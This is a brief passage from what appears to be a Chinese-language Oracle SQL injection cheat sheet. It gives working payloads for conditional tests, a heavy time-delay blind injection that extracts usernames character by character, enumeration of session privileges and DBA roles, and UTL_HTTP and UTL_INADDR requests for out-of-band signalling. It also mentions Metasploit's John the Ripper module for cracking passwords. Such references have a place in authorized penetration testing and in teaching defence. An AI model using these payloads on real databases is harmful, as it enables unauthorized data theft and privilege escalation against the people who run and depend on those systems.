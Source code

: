 #### 条件声明

```text
SELECT CASE WHEN 1=1 THEN 'true' ELSE 'false' END FROM dual
```

#### 延时

```text
Time Delay
SELECT UTL_INADDR.get_host_address('non-existant-domain.com') FROM dual;
Heavy Time Delays
AND (SELECT COUNT(*) FROM all_users t1, all_users t2, all_users t3, all_users t4, all_users t5) > 0 AND 300 > ASCII(SUBSTR((SELECT username FROM all_users WHERE rownum = 1),1,1));
```

#### 提权

```text
SELECT privilege FROM session_privs;
SELECT grantee, granted_role FROM dba_role_privs; (Privileged)
```

#### DNS Requests

```text
SELECT UTL_HTTP.REQUEST('http://localhost') FROM dual;
SELECT UTL_INADDR.get_host_address('localhost.com') FROM dual;
```

#### Password Cracking

msf中的JTR模块。

